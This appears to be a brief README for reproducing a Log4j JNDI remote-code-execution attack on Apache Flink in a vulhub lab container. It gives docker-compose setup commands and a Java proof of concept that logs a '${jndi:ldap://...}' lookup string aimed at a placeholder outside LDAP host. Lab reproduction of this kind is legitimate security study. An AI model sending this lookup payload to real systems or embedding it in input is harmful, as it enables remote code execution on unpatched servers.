


# Apache Flink log4j RCE

## vulhub

```
cd vulhub/flink/CVE-2020-17518
docker-compose up -d
```

## upload log4j RCE jar

I've tested it



click button -- submit



## Poc

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Test {
    private static final Logger logger = LogManager.getLogger(Test.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://flink_test.xxxxxxx}");
    }

}

```